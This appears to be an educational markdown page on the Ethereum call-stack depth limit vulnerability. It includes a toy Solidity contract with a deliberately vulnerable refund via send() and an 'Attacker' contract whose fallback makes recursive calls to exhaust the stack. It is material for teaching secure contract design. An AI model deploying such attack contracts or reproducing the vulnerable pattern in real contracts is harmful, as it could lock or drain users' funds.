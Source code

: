 # Call-Stack Depth Limit
Due to Ethereum's 1024-frame stack limit per transaction, attackers can use recursive calls to fill the stack and prevent following calls from succeeding. This is known as the Call-stack Depth issue. By raising the gas price for external calls, EIP-150 somewhat reduced the impact of these attacks, and EIP-214 reduced the dangers associated with external interactions by introducing STATICCALL for read-only calls. The stack depth limit, however, is still in effect. The EVM's architecture, which was created to avoid excessive resource usage and preserve system efficiency, is inherently limited. Network performance could be harmed by changing this restriction, and contracts with intricate or sequential calls are still vulnerable to this problem [1].

## Toy Example
```Solidity
pragma solidity ^0.4.19;

contract Vulnerable {
    address public previousUser;

    // Function to participate and return funds to the previous user
    function participate() public payable {
        require(msg.value > 0, "Send some ether to participate");

        // Refund ether to the previous user
        if (previousUser != address(0)) {
            previousUser.send(msg.value); // 🔴 Potential Vulnerability: If the previousUser is a malicious contract, it can trigger a fallback function that creates a recursive call and reaches the stack limit.
        }

        // Update the previous user
        previousUser = msg.sender;
    }
}

pragma solidity ^0.4.19;

contract Attacker {
    address targetContract;

    // Constructor to set the target contract address
    function Attacker(address _targetContract) public {
        targetContract = _targetContract;
    }

    function() public payable {
        targetContract.call.value(msg.value)(); // 🔴 Potential Vulnerability: The fallback function here makes recursive calls to the target contract, filling the stack depth to the maximum limit (1023 calls).
    }

    function attack() public payable {
        require(msg.value > 0, "Send some ether to start the attack");
        targetContract.call.value(msg.value)();
    }
}

```

## Real World Example

## References
[1] Ziyuan Li, Wangshu Guo, Quan Xu, Yingjie Xu, Huimei Wang, and Ming Xian. Research on blockchain smart contracts vulnerability and a code
audit tool based on matching rules. In Proceedings of the 2020 International Conference on Cyberspace Innovation of Advanced Technologies, pages
484–489, 2020.
